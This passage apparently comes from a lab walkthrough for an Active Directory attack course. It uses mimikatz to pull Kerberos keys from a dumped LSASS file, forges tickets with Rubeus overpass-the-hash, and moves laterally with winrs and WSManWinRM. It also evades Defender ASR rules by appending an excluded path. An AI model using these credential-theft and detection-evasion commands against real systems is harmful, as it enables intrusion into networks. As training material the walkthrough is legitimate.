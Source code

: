 ```

Version     : SQL Server 2019
Instance    : EU-SQL45
CustomQuery : {master, tempdb, model, msdb}
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL45.EU.EUROCORP.LOCAL}
User        : sa
Links       :
```

Back on our studentvm we can now begin to parse the exfiltrated LSASS minidump (monkey.dmp) using mimikatz as follows. Run the below command from an elevated shell (Run as administrator):

\
NOTE: If you encounter errors parsing the minidump file, most likely your student VM memory is full. Attempt a quick fix by logging in and out of the student VM.

```
C:\AD\Tools\mimikatz.exe "sekurlsa::minidump C:\AD\Tools\studentshare867\monkey867.dmp" "sekurlsa::ekeys" "exit"
```

Now, use Overpass-the-hash on the student VM using Rubeus to start a process with privileges of the dbadmin user who is a member of eu.eurocorp.local. Run the below command from a high integrity process on student VM (Run as administrator):

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:dbadmin /aes256:ef21ff273f16d437948ca755d010d5a1571a5bda62a0a372b29c703ab0777d4f /domain:eu.eurocorp.local /dc:eu-dc.eu.eurocorp.local /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Lateral Movement - ASR Rules Bypass

We can now use winrs to access eu-sqlx. Runthe below commands from the process spawned as dbadmin:

```
winrs -r:eu-sqlx.eu.eurocorp.local cmd
set username
```

Note that use of winrs is not detected by MDE but MDI (Microsoft Defender for Identity) detects it.

To avoid detection, we can use the WSManWinRM.exe tool. We will append an ASR exclusion such as "C:\Windows\ccmcache\\" to avoid detections from the "Block process creations originating from PSExec and WMI commands" ASR rule. Run the below command from the process spawned as dbadmin:

NOTE: If the tool returns a value of 0, there is an error with command execution.

```
C:\AD\Tools\WSManWinRM.exe eu-sql867.eu.eurocorp.local "cmd /c set username C:\Windows\ccmcache\"
```

To see the command output, we can redirect the command to share on the student VM. This has very limited success and we are continuously trying ways to make it more effective.

```
C:\AD\Tools\WSManWinRM.exe eu-sql867.eu.eurocorp.local "cmd /c dir >> \\dcorp-student867.dollarcorp.moneycorp.local\studentshare867\out.txt C:\Windows\ccmcache\"
```

<figure><img src="../../.gitbook/assets/image (264).png" alt=""><figcaption></figcaption></figure>
